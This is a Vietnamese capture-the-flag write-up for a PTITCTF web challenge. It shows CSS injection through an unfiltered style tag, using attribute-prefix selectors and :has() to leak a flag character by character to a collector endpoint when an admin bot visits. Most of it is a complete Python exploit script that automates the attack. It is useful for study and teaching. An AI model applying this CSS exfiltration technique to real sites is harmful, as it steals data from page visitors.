






## Description



## Recon

Tạo một note và xem kết quả:



Kiểm tra thêm cho thấy tag `<script>`, thuộc tính `onerror` và một số tag khác bị loại bỏ, nhưng `<style>` vẫn được giữ lại:

```html
<style>body { color: red; }</style>
```

> → Hướng khai thác là CSS injection thay vì XSS

## Leak collector



Collector nhận query tùy ý qua tham số `t`:

```bash
/collect?t=a5cb0ad7-c6e1-4e39-80a0-73e4aeedf038&x=manual
```

Endpoint trả về một ảnh GIF 1x1. Quan trọng hơn, request được lưu lại:

```bash
/leaks/a5cb0ad7-c6e1-4e39-80a0-73e4aeedf038
```



Vì collector biến một request của trình duyệt thành dữ liệu có thể đọc được từ bên ngoài, nó chính là sink để thực hiện CSS exfiltration.

## CSS prefix oracle

Ý tưởng: dùng CSS selector `[value^="..."]` (khớp tiền tố) kết hợp `:has()` để kiểm tra từng ký tự của flag. Nếu giá trị của `#flag-holder` bắt đầu đúng bằng tiền tố đang đoán, rule CSS được kích hoạt và trình duyệt sẽ tải `background-image`, tức là bắn một request về collector:

```css
body:has(#flag-holder[value^="PTITCTF{a"]) {
  background-image: url("/collect?t=TOKEN&x=prefix_a");
}
```

Nói cách khác, query `x=prefix_a` chỉ xuất hiện trong `/leaks/TOKEN` khi và chỉ khi `a` là ký tự đúng tiếp theo. Lặp lại với mọi ký tự ứng viên, ta suy ra được từng ký tự của flag - đây chính là một CSS exfiltration oracle. Script bên dưới tự động hóa toàn bộ quá trình này.

## Admin bot

Khi bot hoạt động, response là:

```json
{"status":"admin visited the note"}
```

Khi gửi note mới, admin bot chỉ visit một lần. Những lần gửi sau thường trả về lỗi `{"error":"admin bot failed to load the note"}`.

## Script

```python
#!/usr/bin/env python3

from __future__ import annotations

import argparse
import json
import sys
import time
from dataclasses import dataclass
from typing import Any, Iterable
from urllib.error import HTTPError, URLError
from urllib.parse import quote, urlencode
from urllib.request import Request, urlopen


DEFAULT_HOST = "http://144.79.188.39"
DEFAULT_PREFIX = (
    "PTITCTF{"
)
DEFAULT_CANDIDATES = (
    "abcdefghijklmnopqrstuvwxyz"
    "ABCDEFGHIJKLMNOPQRSTUVWXYZ"
    "0123456789"
    "_-.,!@#$%^&*()/=:;?~|[]{}<>"
)


@dataclass
class HttpResult:
    status: int
    body: str


def decode_marker(
    marker: str,
    candidates: str = DEFAULT_CANDIDATES,
    marker_prefix: str = "ext_",
) -> str:
    if not marker.startswith(marker_prefix):
        raise ValueError(f"unexpected marker prefix: {marker!r}")
    try:
        index = int(marker[len(marker_prefix) :])
    except ValueError as exc:
        raise ValueError(f"invalid marker index: {marker!r}") from exc
    if index < 0 or index >= len(candidates):
        raise ValueError(f"marker index out of range: {index}")
    return candidates[index]


def css_escape(value: str) -> str:
    return (
        value.replace("\\", "\\\\")
        .replace('"', '\\"')
        .replace("\n", "\\A ")
        .replace("\r", "\\D ")
    )


def build_css(
    prefix: str,
    token: str,
    candidates: str = DEFAULT_CANDIDATES,
    marker_prefix: str = "ext_",
) -> str:
    rules: list[str] = []
    escaped_token = quote(token, safe="")
    for index, candidate in enumerate(candidates):
        marker = f"{marker_prefix}{index}"
        rules.append(
            "body:has(#flag-holder[value^=\""
            f"{css_escape(prefix + candidate)}"
            "\"]) { background-image: url(\""
            f"/collect?t={escaped_token}&x={quote(marker, safe='')}"
            "\"); }"
        )
    return "\n".join(rules)


def target_url(target: str) -> str:
    value = target.strip()
    if value.isdigit():
        return f"{DEFAULT_HOST}:{value}"
    if not value.startswith(("http://", "https://")):
        value = f"http://{value}"
    return value.rstrip("/")


def http_request(
    url: str,
    method: str = "GET",
    fields: dict[str, str] | None = None,
    timeout: float = 15.0,
) -> HttpResult:
    data = None
    headers = {}
    if fields is not None:
        data = urlencode(fields).encode()
        headers["Content-Type"] = "application/x-www-form-urlencoded"
    request = Request(url, data=data, headers=headers, method=method)
    try:
        with urlopen(request, timeout=timeout) as response:
            return HttpResult(response.status, response.read().decode("utf-8", "replace"))
    except HTTPError as error:
        body = error.read().decode("utf-8", "replace")
        return HttpResult(error.code, body)


def json_body(result: HttpResult, context: str) -> dict[str, Any]:
    try:
        value = json.loads(result.body)
    except json.JSONDecodeError as exc:
        raise RuntimeError(f"{context}: invalid JSON (HTTP {result.status})") from exc
    if not isinstance(value, dict):
        raise RuntimeError(f"{context}: expected a JSON object")
    return value


def create_note(base: str, content: str, timeout: float) -> tuple[str, str]:
    result = http_request(
        f"{base}/note",
        method="POST",
        fields={"content": content},
        timeout=timeout,
    )
    if result.status >= 400:
        raise RuntimeError(f"POST /note failed with HTTP {result.status}: {result.body}")
    body = json_body(result, "POST /note")
    note_id = body.get("id")
    token = body.get("leakToken")
    if not isinstance(note_id, str) or not isinstance(token, str):
        raise RuntimeError("POST /note did not return id and leakToken")
    return note_id, token


def read_leaks(base: str, token: str, timeout: float) -> list[dict[str, Any]]:
    result = http_request(
        f"{base}/leaks/{quote(token, safe='')}",
        timeout=timeout,
    )
    if result.status >= 400:
        return []
    try:
        value = json.loads(result.body)
    except json.JSONDecodeError:
        return []
    return value if isinstance(value, list) else []


def matching_markers(leaks: Iterable[dict[str, Any]], token: str) -> list[str]:
    markers: list[str] = []
    for entry in leaks:
        query = entry.get("query")
        if not isinstance(query, dict) or query.get("t") != token:
            continue
        marker = query.get("x")
        if isinstance(marker, str):
            markers.append(marker)
    return markers


def poll_for_marker(
    base: str,
    token: str,
    timeout: float,
    attempts: int,
    delay: float,
) -> str | None:
    for attempt in range(attempts):
        try:
            markers = matching_markers(read_leaks(base, token, timeout), token)
        except (OSError, URLError, TimeoutError):
            markers = []
        if markers:
            return markers[-1]
        if attempt + 1 < attempts:
            time.sleep(delay)
    return None


def parse_args() -> argparse.Namespace:
    parser = argparse.ArgumentParser(description=__doc__)
    parser.add_argument("target", help="instance port, host:port, or full base URL")
    parser.add_argument("--prefix", default=DEFAULT_PREFIX, help="known flag prefix")
    parser.add_argument(
        "--char",
        help="check only this one candidate instead of the default alphabet",
    )
    parser.add_argument("--timeout", type=float, default=15.0, help="HTTP timeout")
    parser.add_argument(
        "--report-timeout",
        type=float,
        default=35.0,
        help="timeout for the admin report request",
    )
    parser.add_argument("--poll-attempts", type=int, default=8)
    parser.add_argument("--poll-delay", type=float, default=1.0)
    return parser.parse_args()


def main() -> int:
    args = parse_args()
    if args.char is not None and len(args.char) != 1:
        print("--char must contain exactly one character", file=sys.stderr)
        return 2

    candidates = args.char if args.char is not None else DEFAULT_CANDIDATES
    base = target_url(args.target)
    print(f"[+] target: {base}")
    print(f"[+] prefix: {args.prefix}")
    print(f"[+] candidates: {candidates!r}")

    try:
        _, collector_token = create_note(base, "<p>collector from solve.py</p>", args.timeout)
        css = build_css(args.prefix, collector_token, candidates)
        payload = f"<style>{css}</style>"
        note_id, _ = create_note(base, payload, args.timeout)
        print(f"[+] collector token: {collector_token}")
        print(f"[+] probe note: {note_id}")

        try:
            report = http_request(
                f"{base}/report",
                method="POST",
                fields={"id": note_id},
                timeout=args.report_timeout,
            )
            print(f"[+] report HTTP {report.status}: {report.body}")
        except (OSError, URLError, TimeoutError) as exc:
            print(f"[!] report request failed: {exc}; polling leaks anyway")

        marker = poll_for_marker(
            base,
            collector_token,
            args.timeout,
            max(1, args.poll_attempts),
            max(0.0, args.poll_delay),
        )
        if marker is None:
            print("[-] no collector hit; do not infer a character")
            return 2

        candidate = decode_marker(marker, candidates)
        print(f"[+] marker: {marker}")
        print(f"[+] next character: {candidate!r}")
        print(f"[+] new prefix: {args.prefix}{candidate}")
        return 0
    except (OSError, URLError, TimeoutError, RuntimeError, ValueError) as exc:
        print(f"[!] {exc}", file=sys.stderr)
        return 1


if __name__ == "__main__":
    raise SystemExit(main())

```

```bash
python3 solve.py $PORT
```

Mỗi lần kiểm tra xong một ký tự thì phải restart instance mới để bot hoạt động trở lại. Flag không thay đổi theo instance mà phụ thuộc vào team token của người chơi.

Kết quả:



## Flag

```text
PTITCTF{youtu.be/XKZIQlqVjjk?si=n3v3r_th0ught_css_c0uld_b_that_dang3r0us_6eca74faeb50}
```
